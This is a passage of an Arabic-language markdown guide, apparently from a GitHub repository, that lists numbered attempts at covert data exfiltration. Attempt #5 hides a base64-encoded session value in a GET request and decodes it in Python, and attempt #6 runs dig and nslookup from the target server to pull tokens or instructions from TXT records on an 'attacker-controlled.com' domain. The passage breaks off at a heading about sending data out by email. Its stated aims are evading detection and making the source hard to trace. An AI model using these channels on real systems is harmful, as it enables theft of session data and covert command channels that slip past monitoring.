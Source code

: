 ## 🔍 المحاولة #5: استخدام Base64 Encoding مع Web Logs

### ⚙️ الفكرة:
إخفاء البيانات داخل طلبات طبيعية باستخدام تشفير بسيط.

### 💥 الاستغلال:

```http
GET /search?q=base64encode(session=abc123) HTTP/1.1
Host: target.com
```

ثم فك التشفير عند استقبال الطلب:

```python
import base64
encoded = "c2Vzc2lvbj1hYmMxMjMK"
print(base64.b64decode(encoded).decode())
```

### 📌 النتيجة:
- تمرير البيانات ضمن طلبات طبيعية.
- صعوبة تتبع المصدر الحقيقي.

---

## 🔍 المحاولة #6: استخدام DNS TXT Record لنقل البيانات

### ⚙️ الفكرة:
تخزين بيانات كبيرة في سجلات DNS TXT واستدعائها لاحقًا.

### 💥 الاستغلال:

```bash
dig TXT attacker-controlled.com
```

أو من الخادم المستهدف:

```bash
nslookup -type=TXT attacker-controlled.com
```

### 📌 النتيجة:
- يمكن تخزين توكنات أو تعليمات في TXT Records.
- لا يُعتبر هذا نشاطًا ضارًا غالبًا.

---

## 🔍 المحاولة #7: استخدام Email للإرسال الغامض

### ⚙️ الفكرة:
إرسال البيانات عبر البريد الإلكتروني باستخدام SMTP داخلي أو خارجي.
